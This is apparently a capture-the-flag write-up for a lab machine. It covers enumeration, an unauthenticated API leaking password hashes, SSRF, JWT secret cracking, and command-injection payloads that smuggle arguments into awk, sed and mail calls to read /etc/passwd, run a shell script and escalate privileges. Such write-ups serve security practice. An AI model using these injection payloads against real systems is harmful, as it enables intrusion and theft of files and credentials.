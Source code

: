 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Accessing port 80 through browser site will redirect to this hostname

baseurl
```bash
http://hat-valley.htb
```
Fuzzing subdomain
```bash
#subdomain
http://store.hat-valley.htb
```
found endpoints from 
```bash
http://hat-valley.htb/js/app.js
```
endpoints

```bash
http://hat-valley.htb/hr
http://hat-valley.htb/dashboard
http://hat-valley.htb/leave
```
api endpoints
```bash
http://hat-valley.htb/api/
http://hat-valley.htb/api/all-leave {Need Auth}
http://hat-valley.htb/submit-leave {reason,start,end} {Need Auth}
http://hat-valley.htb/api/login   {username,password}
http://hat-valley.htb/api/staff-details {No need of auth}
http://hat-valley.htb/api/store-status {url:"value"} {No need of auth}
```

Names from Teams
```bash
jackson Lightheart
bean Hill
christine Wool {CEO}
christopher Jones
```
Login
```bash
http://store.hat-valley.htb {basic Auth}
http://hat-valley.htb/hr   {"username":"password"}
```

This endpoint is vulnerable for access control we don't need any token for getting these data
http://hat-valley.htb/api/staff-details

Found username and it's passwords
```bash
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
```

One hash is crackable
cracked password
```bash
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123
```

SSRF from store-status endpoint and found the backend server listening port 3002 and the response show some api documention
http://hat-valley.htb/api/store-status?url="http://localhost:3002"

Api documentation 
patached.html

Reading the documentation i found a file read in all-leave endpoint
http://hat-valley.htb/api/all-leave
Abusing "awk"   
This endpoint is used to fetch user leave requests and the endpoint need user token to fetch the details
the mechanisam behind the fetching user details it use awk command (linux command) for getting data from leave requests stored file that is a csv file on target. server will extract username from user token and getting that particuler user data from csv file using awk. we need to foreging the cookie for injecting filename in username feild of the token

```bash
#bruteforceing the cookie using john and jwt2john tool 
jwt secret = 123beany123
```
rawCommand
```bash
awk '/user/' leave_requests.csv
```

abusedCommand
```bash
awk '//' /etc/passwd '/' leave_reve_requests.csv
```

FOOTHOLD

I write a python script for reading file from target

Machine users
```bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```

Machine user bean password from home_backup tar file
```bash
bean:014mrbeanrules!#P
```
user to www-data

exploiting sed system command on store.hat-valley.htb

payload
```bash
/' -e '1e /dev/shm/rce.sh' '
```
it work like this
```javascript
{sed -i '/item_id=/' -e '1e /dev/shm/rce.sh' '/d' /var/www/store/cart/randomuser-id}
````

I write a script for getting www-data shell

Privilege escalation through mail command
```bash
#payload
; --exec='!/dev/shm/cmd.sh',pe,pe,pe,pe
```

#scripts are i used for this machine will also upload the awkward directory
